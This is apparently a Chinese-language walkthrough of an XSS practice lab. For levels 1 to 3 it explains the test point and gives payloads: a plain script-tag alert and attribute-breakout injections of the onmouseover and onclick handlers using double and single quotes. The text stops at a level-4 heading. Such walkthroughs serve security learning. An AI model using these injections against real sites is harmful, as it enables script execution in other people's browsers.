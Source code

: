 ### level-1

#### 考点：URL直接注入

#### 思考：

直接注入xss

**payload：**

```
<script>alert(/xss/)</script>
```



### level-2

#### 考点：构造闭合，构造事件

#### 思考：

有多种方法：可以构造闭合\<script\>标签，构造事件

```
<input name="keyword" value="" onmouseover="alert(1)">">"

<input name="keyword" value="" onclick="alert(1)<br">">
```

**payload：**

```
"><script>alert(/2333/)</script>

" onmouseover=alert(/2333/)>		//需要鼠标划过输入框
" onclick=alert(/2333/)<br>		//需要鼠标点击输入框
```



### level-3

#### 考点：< 被转义了，单引号闭合

#### 思考：

闭合<"">构造script弹窗方法不适用，并且这里需要用单引号闭合，构造事件

**payload：**

```
' onmouseover=alert(/2333/)//	//需要鼠标划过输入框
' onclick=alert(/2333/)//		//需要鼠标点击输入框
```



### level-4
